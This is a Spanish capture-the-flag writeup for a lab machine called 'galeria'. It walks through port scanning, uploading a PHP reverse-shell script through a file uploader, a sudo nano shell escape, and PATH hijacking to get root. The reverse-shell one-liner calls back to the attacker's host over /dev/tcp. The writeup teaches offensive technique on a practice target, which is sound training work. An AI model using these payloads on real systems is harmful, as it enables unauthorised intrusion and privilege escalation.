







# galeria - Writeup

## Resumen
galeria nos presenta una máquina la cual introduciremos un script malicioso mediante un file uploader, explotaremos binarios SUID y haremos uso del **PATH Hijacking**

## Paso N1: Reconocimiento
Empezamos escaneando los puertos TCP disponibles con sus respectivos servicios y versiones
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000 -oG open_ports
```


Veremos que están abiertos los puertos 21 y 80 correspondientes a ftp y http respectivamente.
**Nota del creador:** En esta máquina personalmente no hago uso del servidor ftp, pero es recomendable entrar y experimentar para desarrollar lógica y criterio propio.

## Paso N2: Búsqueda de subdirectorios
La página veremos que es una galería de fotos, no hay pistas ni credenciales sueltas, por lo que procederemos con la búsqueda de subdirectorios. 
```
gobuster dir -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://172.17.0.2/ -x php,html
```


Veremos que está disponible el subdirectorio `/gallery/` el cuál es un **Directory Listing** y que explorando un poco, llegaremos a `handler.php`, el cual al entrar veremos que nos permite subir un archivo.

## Paso N3: Explotando el file uploader
crearemos un pequeño script en `php` el cual al ejecutarse se refleje una reverse shell y lo subimos.
```
echo '<?php system("bash -c '"'"'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'"'"'"); ?>' > script.php
```
Una vez subido, se vera reflejado en `http://172.17.0.2/gallery/uploads/images/`


Si entramos al archivo escuchando en el puerto 443 con `nc -lvnp 443` habremos accedido al sistema.

## Paso N4: Accediendo a usuarios
Ya dentro del sistema, empezaremos tratando la terminal.
```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```
Una vez tratada, ejecutaremos `sudo -l` y encontraremos `(gallery) NOPASSWD: /bin/nano`


Por lo que de acuerdo con [GTFObins](https://gtfobins.org/gtfobins/nano/#shell) ejecutaremos los siguiente comandos:
```
sudo -u gallery /bin/nano
Ctrl+R Ctrl+X
reset; sh 1>&0 2>&0
```
Y habremos obtenido acceso al usuario `gallery`, opcional volver a ejecutar `script /dev/null -c bash`

## Paso N5: Escalando privilegios
Si ejecutamos `sudo -l` estando en el usuario `gallery` veremos `(ALL) NOPASSWD: /usr/local/bin/runme`


Ejecutamos
```
strings /usr/local/bin/runme
```
Y veremos que se esta ejecutando
```
convert /var/www/html/gallery/uploads/images/input.png /var/www/html/gallery/uploads
```


Esta llamando el binario `convert` sin ruta absoluta, por lo que podremos realizar un **PATH hijacking** ejecutando los siguientes comandos:
```
cd /home/gallery
echo '/bin/bash' > convert
chmod +x convert
export PATH=.:$PATH
```

**Explicación:** Básicamente, como el binario `convert` no especifica ruta absoluta en su ejecución, podemos ejecutar comandos haciendose pasar por el binario `convert`. `PATH` es la lista de carpetas donde el sistema busca ejecutables (en este caso nuestro `/usr/local/bin/runme`) y al poner `.$PATH` basicamente está buscando el ejecutable en carpeta actual, en este caso `convert`.

Ya una vez sobreescrito el binario `convert` ejecutamos `sudo /usr/local/bin/runme`


Y finalmente, seremos usuarios root.


